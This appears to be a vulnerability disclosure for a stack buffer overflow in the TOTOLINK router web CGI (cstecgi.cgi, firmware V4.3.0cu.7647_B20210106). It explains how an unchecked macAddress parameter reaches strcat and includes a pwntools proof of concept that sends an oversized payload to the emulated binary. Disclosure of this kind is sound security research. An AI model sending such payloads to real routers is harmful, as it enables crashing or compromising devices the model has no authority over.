

## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_0041b448` (at address 0x41b448) gets the json parameter `macAddress` but doesn't check it's length, a stack overflow occurs by calling `strcat` function directly to concatenate it into a local variables on the stack:  



As can be seen from the image above, after the parameter `macAddress` is obtained, it is segmented with `":"` and the segmented string is spliced into the local variable local_3c.

## POC 

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiAclAddConfig",
    "wifiIdx": "0",
    "addEffect": "0",
    "comment": "AAA",
    "macAddress": "A"*0x200 + ":" + "A"*0x100 + ":A:A"
}
data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecginew.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```


